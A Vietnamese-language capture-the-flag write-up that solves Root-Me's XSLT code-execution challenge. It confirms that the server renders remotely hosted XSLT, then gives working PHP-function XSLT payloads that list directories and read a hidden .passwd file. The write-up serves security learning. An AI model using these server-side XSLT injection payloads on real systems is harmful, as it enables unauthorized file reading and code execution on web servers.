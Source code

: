 # XSLT - Code Execution

**Tên challenge:** eXtensible Stylesheet Language Transformations

**Link challenge:** [Here](https://www.root-me.org/en/Challenges/Web-Server/XSLT-Code-execution)

**Tác giả challenge:** ghozt

**Mục tiêu challenge:** Find the vulnerability and exploit it to read the file .passwd in a subdirectory of the challenge tree.

**Tác giả Writeup:** Shino

---

# Bài giải

**B1:** Đầu tiên, giao diện Website chỉ có 1 chức năng chuyển `Style` như sau:

![alt text](./images/image.png)

Có 3 `Style` tương ứng từ `[1 -> 3]`, sau khi Click `Change style!` thì trang Web sẽ render theo `Style` đó:

![alt text](./images/image-1.png)

Sau khi bắt lại gói tin trên BurpSuite thì ta thấy sẽ có 1 gói tin **POST** được gửi đi khi ta bấm vào button `Change style!`:

![alt text](./images/image-2.png)

=> Từ gói tin trên, ta có thể thay đổi giá trị của parameter `xsl` ở phần Body.

Nhưng trước tiên thì file `XSL` hay `XSLT` là gì ?

**Trả lời:**
* `XSLT` là một công nghệ được sử dụng để chuyển đổi các tài liệu `XML` sang các định dạng khác nhau. Nói cách khác, bạn có thể hiểu nó có tác dụng giống như CSS đối với HTML vậy, nó có tác dụng làm cho nội dung file XML trở nên đẹp hơn khi được render.
* Trong `XSLT` cũng có hỗ trợ những hàm giúp ta thực thi Command OS, do đó nếu phía Server không kiểm tra kỹ input từ người dùng, có thể dẫn đến việc bị khai thác.

Quay lại với Challenge, đối với tham số `xsl` trong gói tin **POST** ở trên, ta tự hỏi liệu nếu giá trị `xsl` là 1 URL chứa nội dung `XSLT` thì liệu ứng dụng có lấy nội dung đó về và render ra không ?

**B2:** Ta thử nghiệm với giả thuyết trên bằng Edit nội dung trang Webhook của ta bằng 1 đoạn `XSLT` đơn giản như sau:
```
<?xml version="1.0" encoding="UTF-8"?>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
<xsl:template match="/">
<html> 
<body>
  <h2>My CD Collection</h2>
  <table border="1">
    <tr bgcolor="#9acd32">
      <th style="text-align:left">Title</th>
      <th style="text-align:left">Artist</th>
    </tr>
    <xsl:for-each select="catalog/cd">
    <tr>
      <td><xsl:value-of select="title"/></td>
      <td><xsl:value-of select="artist"/></td>
    </tr>
    </xsl:for-each>
  </table>
</body>
</html>
</xsl:template>
</xsl:stylesheet>
```
Về cơ bản thì đoạn `XSLT` trên sẽ tạo ra bảng gồm 1 dòng với 2 cột chữ `Title` và `Artist` in đen và có nền là màu xanh lá cây:

![alt text](./images/image-3.png)

Sau khi ta gửi URL chứa nội dung trên của ta lên Server thì nếu Server render ra nội dung tương tự trên thì nghĩa là Server đã xuất hiện lỗ hổng.

![alt text](./images/image-4.png)

=> Kết quả là Website đã render nội dung `XSLT` của ta và từ đó ta có thể khai thác nâng cao hơn bằng các hàm Command để lấy `Flag`.

**B3:** Ta Edit lại nội dung trên Webhook thành payload sau:
```
<?xml version="1.0" encoding="utf-8"?>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:php="http://php.net/xsl" >
<xsl:template match="/">
<xsl:value-of select="php:function('opendir','./')"/>
<xsl:value-of select="php:function('readdir')"/> -
<xsl:value-of select="php:function('readdir')"/> -
<xsl:value-of select="php:function('readdir')"/> -
<xsl:value-of select="php:function('readdir')"/> -
<xsl:value-of select="php:function('readdir')"/> -
<xsl:value-of select="php:function('readdir')"/> -
<xsl:value-of select="php:function('readdir')"/> -
<xsl:value-of select="php:function('readdir')"/> -
<xsl:value-of select="php:function('readdir')"/> -
<xsl:value-of select="php:function('readdir')"/> -
<xsl:value-of select="php:function('readdir')"/> -
<xsl:value-of select="php:function('readdir')"/> -
<xsl:value-of select="php:function('readdir')"/> -
<xsl:value-of select="php:function('readdir')"/> -
</xsl:template></xsl:stylesheet>
```
<u>**Giải thích:**</u>
* Cụ thể đoạn payload trên sẽ list ra các file hoặc thư mục có trong thư mục hiện tại `./` tương tự giống lệnh `ls ./` trong Linux vậy.
* Tuy nhiên khác ở chỗ là function `readdir`, cụ thể là nếu trong thư mục hiện tại có 10 file thì ta phải có tương ứng bấy nhiêu dòng `readdir`. Giả sử ta chỉ `readdir` có 5 dòng thì nó chỉ trả về đúng 5 file thôi. Do đó, bạn nên dùng `readdir` nhiều nhất có thể vì nếu `readdir` nhiều hơn số lượng file hoặc thư mục có trong thư mục hiện tại thì nó sẽ trả về `False` sau khi nó duyệt qua file cuối cùng thôi.

Sau khi gửi URL Webhook lên Server thì ta sẽ nhận được response sau:

![alt text](./images/image-5.png)

Tiếp đến, ta sẽ thử list ra các file có trong thư mục `.6ff3200bee785801f420fba826ffcdee` để xem liệu có file `.passwd` không, thông qua payload sau:
```
<?xml version="1.0" encoding="utf-8"?>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:php="http://php.net/xsl" >
<xsl:template match="/">
<xsl:value-of select="php:function('opendir','./.6ff3200bee785801f420fba826ffcdee')"/>
<xsl:value-of select="php:function('readdir')"/> -
<xsl:value-of select="php:function('readdir')"/> -
<xsl:value-of select="php:function('readdir')"/> -
</xsl:template></xsl:stylesheet>
```

![alt text](./images/image-6.png)

=> Ta đã tìm thấy file `.passwd`.

**B4:** Ta sẽ đọc file `.passwd` thông qua payload:
```
<?xml version="1.0" encoding="utf-8"?>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:php="http://php.net/xsl" >
<xsl:template match="/">
<xsl:value-of select="php:function('file_get_contents','./.6ff3200bee785801f420fba826ffcdee/.passwd')"/>
</xsl:template></xsl:stylesheet>
```

![alt text](./images/image-7.png)
=> Ta đã lấy được `Flag`.

<u>**Đọc thêm:**</u> https://book.hacktricks.xyz/pentesting-web/xslt-server-side-injection-extensible-stylesheet-language-transformations